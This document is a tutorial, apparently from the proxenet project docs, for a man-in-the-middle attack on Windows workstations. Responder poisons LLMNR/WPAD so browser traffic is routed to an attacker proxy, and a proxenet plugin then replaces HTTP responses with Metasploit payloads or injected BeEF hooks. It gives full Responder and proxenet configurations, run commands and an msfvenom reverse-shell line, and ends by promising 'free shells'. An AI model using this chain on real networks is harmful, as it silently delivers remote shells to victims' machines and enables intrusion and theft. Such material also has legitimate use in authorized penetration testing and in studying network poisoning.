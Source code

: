 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome tool
[Responder](https://github.com/SpiderLabs/Responder) in two easy steps.


## Network setup ##

We will the Windows hosts on the network `192.168.56.0/24`. Our evil box will be
at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration to our evil box. The configuration is
pretty easy since we don't need any feature from `Responder` except the
poisoning.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName =
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY ISAProxySrv:8008';}
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see next part).
```
sudo python2 Responder.py -v -I vboxnet0 -u 192.168.56.1:8008
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

When started, `proxenet` will start initializing plugins and appending them to
a list **only if** they are valid (filename convention and syntaxically
valid). Then it will start looking for events.

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %{home}/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008
```

Or add the `-N` option to disable the SSL interception and make it stealthier.


## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Whenever, the victim will use their web browser setup in
   "Auto-configuration".
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !

